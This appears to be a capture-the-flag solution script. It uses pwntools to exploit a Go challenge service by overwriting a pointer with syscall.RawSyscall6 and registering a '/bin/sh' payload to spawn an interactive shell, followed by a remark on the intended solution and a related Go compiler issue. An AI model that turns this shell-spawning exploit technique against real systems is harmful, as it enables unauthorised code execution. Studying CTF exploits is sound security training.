 ```python


def main() -> None:
    IP = sys.argv[1] if len(sys.argv) > 1 else 'localhost'
    PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 17172

    io = pwn.remote(IP, PORT)

    # 0000000000402680 T syscall.RawSyscall6

    for i in range(28):
        register(io, f'x_{i}'.encode(), b'x', b'full')
        logout(io)

    register(io, b'x', b'x', b'full')
    update(io, pwn.p64(0x0000000000402680) + pwn.p64(0))
    logout(io)
    login(io, b'x', b'x')
    logout(io)

    # pwn.pause()

    payload = b'/bin/sh\x00'
    payload += b'A' * (0x400008 - len(payload))

    register(io, payload, b'y', b'full')

    io.interactive()


if __name__ == '__main__':
    main()
```

*Note: the intended solution doesn't require a searching for the specific bug in Go compiler since the trigger could be noticed by DEBUG logging. But there is an issue for this bug: https://github.com/golang/go/issues/54456*
